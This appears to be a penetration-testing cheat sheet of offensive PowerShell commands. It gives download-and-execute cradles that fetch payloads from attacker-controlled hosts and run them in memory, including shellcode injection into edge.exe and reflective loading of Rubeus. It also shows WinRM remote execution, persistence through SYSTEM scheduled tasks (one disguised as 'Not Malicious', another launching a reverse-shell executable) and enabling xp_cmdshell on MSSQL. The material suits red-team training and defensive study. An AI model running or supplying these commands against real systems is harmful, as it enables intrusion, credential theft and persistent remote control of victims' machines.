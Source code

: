 # Execution
## Executing Shellcode
### Empire's `Invoke-Shellcode`
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1');
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin");
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b;
```
Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`
### Executable to In-Memory Assembly Code
Reflectively loading a binary as assembly code
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
### Download and Execute in Memory
GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)
```
Additionally, there are additional methods here: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
### WinRM
The following will establish a WinRM session and execute commands remotely.
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess;
}
```
Or, you can gain an interactive session.
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
## PowerShell Execution via Text File
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke();
```
## Scheduled Task Creation

```powershell
$Script = 'C:\Scripts\Gather-IncomingSMBSessions.ps1'
$TaskName = 'Gather Incoming SMB Sessions'
$Description = 'This task gathers incoming SMB connections'
$User = "NT AUTHORITY\SYSTEM"
$Executable = "PowerShell.exe"
$Action = New-ScheduledTaskAction -execute $Executable -Argument "-file $Script"
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).Date -RepetitionInterval (New-TimeSpan -Minutes 5)
$Settings = New-ScheduledTaskSettingsSet –StartWhenAvailable
Register-ScheduledTask -TaskName $TaskName -Trigger $Trigger -Action $Action -Setting $Settings -description $Description -User $User -RunLevel Highest
```
second new schedule task creation
```powershell
$Script = 'C:\Scripts\NotMalicious.ps1'
$TaskName = 'Not Malicious'
$Description = 'Totally fine and safe to run'
$User = "NT AUTHORITY\SYSTEM"
$Executable = "PowerShell.exe"
# new scheduled task to execute every 5 minutes
$Action = New-ScheduledTaskAction -execute $Executable -Argument "-file $Script"
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).Date -RepetitionInterval (New-TimeSpan -Minutes 5)
$Settings = New-ScheduledTaskSettingsSet –StartWhenAvailable
Register-ScheduledTask -TaskName $TaskName -Trigger $Trigger -Action $Action -Setting $Settings -description $Description -User $User -RunLevel Highest
```
Or
```powershell
schtasks /create /sc minute /mo 1 /tn burmat /tr \tmp\reverse443.exe /ru SYSTEM
```
## Microsoft SQL Server (MSSQL)
## PowerUpSQL
### Enumerate Privileges
Full credit to: [https://github.com/lkys37en](https://github.com/lkys37en)
```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co";
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator;
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName;

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation;

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10;
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation;

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}
	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole;
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append;
}
```
### Enable xp\_cmdshell / Execute Commands
```powershell
## enable xp_cmdshell:
Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

## test rce:
Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery
```